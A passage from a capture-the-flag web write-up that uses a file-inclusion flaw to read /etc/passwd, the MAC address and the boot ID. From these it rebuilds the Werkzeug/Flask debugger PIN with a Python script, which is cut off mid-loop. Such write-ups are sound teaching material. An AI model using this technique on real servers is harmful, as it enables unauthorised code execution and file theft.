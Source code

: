 ```java
```

- but now we have a problem how to get these parameters
- we have file inclusion from the source code .

![image.png](./Aswan%20CTF%20Web%20Writeups/Hambozo/image%206.png)

![image.png](./Aswan%20CTF%20Web%20Writeups/Hambozo/image%207.png)

- so let’s use it

```java
username : ctf (from /etc/passws)
macaddress : /sys/class/net/eth0/address
02:42:ac:19:00:02 -> print(int(0x0242ac190002))
2485378416642
id : /proc/sys/kernel/random/boot_id -> 4a5bc48c-6dd5-46d9-8096-ee57bf375bc4
note:we used /proc/sys/kernel/random/boot_id as /etc/machine-id is not found and according to the library it uses on of both but the priority is for /etc/machine-id 
```

- final exploit

```java
import hashlib
from itertools import chain
probably_public_bits = [
    'ctf',# username
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.5/dist-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
    '2485378416642',# str(uuid.getnode()),  /sys/class/net/ens33/address
    '4a5bc48c-6dd5-46d9-8096-ee57bf375bc4'# get_machine_id(), /etc/machine-id
]

h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
```